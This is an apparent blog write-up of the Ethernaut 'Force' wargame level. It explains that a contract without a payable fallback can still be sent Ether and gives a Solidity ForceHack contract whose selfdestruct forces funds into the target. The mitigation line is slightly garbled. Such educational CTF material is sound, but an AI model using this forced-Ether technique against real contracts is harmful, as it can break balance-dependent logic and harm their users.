 ```yaml
---
title: Level 7 - Force
slug: level-7
published: 05-17-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut7.svg
---
```


## Objectives

1. Send Ether to the Force contract.

## Vulnerabilities

### Expecting that a contract can't hold any ether

A contract with no `payable` `fallback` function can still receive Ether.

## Exploit

1. Write and deploy a simple hack contract like the following ones:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IForce {}

contract ForceHack {
    IForce target;

    constructor(address _targetAddress) payable {
        target = IForce(_targetAddress);
    }

    function kaboom() external {
        selfdestruct(payable(address(target)));
    }
}
```

2. Call the `kaboom` function to `selfdestruct` the ForceHack contract and send the balance to
   the Force contract.

## Suggested mitigation

- Read the contract's balance directly instead of assuming that its balance.

## Further reading

- SWC-132 - Unexpected ether balance <ExternalLink href={"https://swcregistry.io/docs/SWC-132"} />
